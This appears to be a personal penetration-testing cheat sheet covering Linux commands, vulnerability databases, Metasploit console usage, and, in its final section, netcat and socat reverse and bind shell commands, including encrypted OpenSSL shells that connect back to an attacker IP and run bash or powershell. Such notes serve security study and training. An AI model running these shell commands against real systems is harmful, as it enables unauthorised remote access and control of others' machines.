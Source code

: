 # General

## Commands
* [grep](https://tldr.ostera.io/grep)
* `chmod +x ./<filename>` : Make a file executable
* `wget <link location>`
* `uname` : Print certain system information
* `python3 -m http.server <port>`: Start up a simple local HTTP server
  * `-m`: run library module as a script

## Vulnerability Databases
* [National Vulnerability Database](https://nvd.nist.gov/vuln/full-listing)
* [Exploit-DB](https://www.exploit-db.com/)
* [Rapid7](https://www.rapid7.com/db/)

## Metasploit
* `msfconsole`: The command line interface
* `set <option> <value>`: Set the given option to value
* `history`: See commands typed earlier
* `search <options> <keywords>:<value>`
* `use <module>`
* `info`
* `back`: Leave the context
* `show options`
* `setg`: Set values that will be used for all modules
* `exploit` or `run`
* Ctrl+Z: Make the session into a background task
* Metasploit Database
  * First, start a database
  * `msfdb init`
  * `db_status`: Check the database status
  * `workspace`: List available workspaces
  * `workspace -a/-d <name>`: Add/Delete a workspace
  * `db_nmap`: The nmap results will be stored to the database
  * `hosts` or `services`: List host and service information of the target system
  * `hosts -R`: Once host information is stored in database, use this command to add the value to the RHOSTS parameter

## Reverse Shell and Bind Shell
* Reverse Shell
  * The attacking machine opens a listner and the target machine connects back to it
* Bind Shell
  * The target machine opens a listner and the attacking machine connects to it
* Netcat
  * `nc -lvnp <port>`: Netcat listening on a port
    * `-l`: Be a listener
    * `-v`: Verbose
    * `-n`: Don't resolve host names or use DNS
    * `-p`: Port specification
  * `nc <ip> <port>`
* Netcat Shell Stabilisation
  * Python
    * `python -c 'import pty;pty.spawn("/bin/bash")'`: Spawn a better featured bash shell
    * `export TERM=xterm`: Gives access to term commands such as `clear`
    * Ctrl+Z + `stty raw -echo; fg`: It turns off our own terminal echo (which allows pressing tab, arrow keys, and Ctrl+C), then foreground the shell 
  * `rlwrap nc -lvnp <port>`
* Socat
  * `socat TCP-L:<port> -`: Socat listening on a port
  * `socat TCP:<ip>:<port> EXEC:powershell.exe,pipes`: Connect back to socat listener on Windows
    * pipes forces powershell to use Unix style standard input and output
  * `socat TCP:<ip>:<port> EXEC:"bash -li"`: Connect back to socat listener on Linux
  * `socat TCP-L:<port> EXEC:powershell.exe,pipes`: Bind shell on Windows
  * `socat TCP-L:<port> EXEC:"bash -li"`: Bind shell on Linux
  * `socat TCP:<TARGET-IP>:<TARGET-PORT> -`: Connect to bind shell
  * ```socat TCP-L:<port> FILE:`tty`,raw,echo=0```: A fully stable tty Linux reverse shell
  * `socat TCP:<ip>:<port> EXEC:"bash -li",pty,stderr,sigint,setsid,sane`: Special command to connect to the stable reverse shell
  * Encrypted shells
    * `openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt`: Generate a certificate
    * `cat shell.key shell.crt > shell.pem`: Merge the 2 files into a simple .pem file
    * `socat OPENSSL-LISTEN:<port>,cert=shell.pem,verify=0 -`: Reverse shell listener
    * `socat OPENSSL:<ip>:<port>,verify=0 EXEC:/bin/bash`: Connect back to reverse shell
    * `socat OPENSSL-LISTEN:<port>,cert=shell.pem,verify=0 EXEC:cmd.exe,pipes`: Bind shell listener
    * `socat OPENSSL:<ip>:<port>,verify=0 -`: Connect to bind shell
